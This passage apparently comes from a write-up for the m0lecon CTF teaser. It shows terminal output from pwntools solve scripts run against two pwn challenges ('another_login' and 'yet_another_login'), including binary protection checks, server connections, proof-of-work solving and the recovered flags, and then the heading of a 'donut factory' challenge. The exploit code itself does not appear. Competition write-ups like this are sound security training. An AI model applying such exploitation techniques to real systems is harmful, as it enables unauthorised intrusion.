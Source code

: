 ```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/m0lecon-teaser/another_login/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.m0lecon.it on port 1907: Done
Solving PoW...
Solved!
/home/sky/Dropbox/ctf/m0lecon-teaser/another_login/solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(starting + str(i))
[+] Receiving all data: Done (2.73KB)
[*] Closed connection to challs.m0lecon.it port 1907
[*] flag found: ptm{D1d_u_r3ad_th3_0per4t0r_m4nua1_b3f0re_l0gging_1n?}
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
```

```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/m0lecon-teaser/yet_another_login/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.m0lecon.it on port 5556: Done
Solving PoW...
Solved!
/home/sky/Dropbox/ctf/m0lecon-teaser/yet_another_login/solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(starting + str(i))
[+] Receiving all data: Done (2.96KB)
[*] Closed connection to challs.m0lecon.it port 5556
[*] flag found: ptm{N0w_th1s_1s_th3_r34l_s3rv3r!_a526fd7c2b}
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
```

# donut factory


```text
Come visit our factory to create your custom donuts!

nc challs.m0lecon.it 1743
```
